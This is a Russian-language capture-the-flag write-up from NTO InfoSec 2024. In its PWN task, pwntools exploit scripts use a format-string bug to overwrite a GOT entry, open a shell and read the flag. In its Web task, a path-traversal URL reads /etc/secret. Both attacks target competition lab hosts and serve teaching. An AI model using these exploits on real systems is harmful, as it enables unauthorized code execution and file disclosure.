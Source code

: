 # NTO-InfoSec-2024-writeups
# Команда "two_raccoons_enough"
____
# Task based
## PWN
### 10 баллов
Залив исходники в дизассемблер, мы можем заметить функцию `win()`, которая возвращает  `/bin/sh`, способный дать нам контроль над машиной. В функции `main()` содержится memory unsafe `printf(format: &var_418)`, уязвимая к f-strings. 
```shell
┌──(kali㉿KaliOlymp)-[~/Downloads]
└─$ nc 192.168.12.13 1923        
%x %x %x %x
78252078 fbad2088 15a62ac 0
```
Проверив эту гипотезу, мы приступили к редактированию кода, который использовался в райтапах на подобную задачу, [найденного на CTFTime](https://ctftime.org/writeup/33272).
```python
from pwn import *

binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary)
r = ROP(e)

gs = '''
continue
'''

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('ubume.crewctf-2022.crewc.tf', 1337)
    else:
        return process(e.path)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Этот код не работал и не совсем подходил для нашего таска, поэтому пришлось его отредактировать
```python
from pwn import *


binary = args.BIN

context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF("/home/kali/Desktop/main")
r = ROP(e)

gs = '''
continue
'''

def start():
    return remote('192.168.12.13', 1923)

p = start()

payload_writes = {
        e.got['exit']: e.sym['win']
}

payload = fmtstr_payload(6,payload_writes,write_size='short')
p.sendline(payload)
p.interactive()
```
Эксплоит успешно передал управление функции `win()`, которая дала нам полный доступ к уязвимой машине
```shell
┌──(kali㉿KaliOlymp)-[~/Desktop]
└─$ python exploit.py -h ./main
[*] '/home/kali/Desktop/main'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 4 cached gadgets for '/home/kali/Desktop/main'
[+] Opening connection to 192.168.12.13 on port 1923: Done
[*] Switching to interactive mode
```
```shell
$ ls
bin
boot
dev
etc
flag
home
lib
lib32
lib64
libx32
main
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
$ cat flag
nto{easy_formt_string}
$  
```
Мы получили флаг: **nto{easy_formt_string}**
## Web 
### 10 баллов
На сайте мы сразу же видим число 20, на которое можно нажать. Нажав мы видим `Hint_1 maybe in etc/secret ???`.
Это явный намёк на LFI. Просто меняем путь в строке на http://192.168.12.10:5001/download?file_type=../../../../etc/secret и получаем флаг.
**nto{P6t9_T77v6RsA1}**
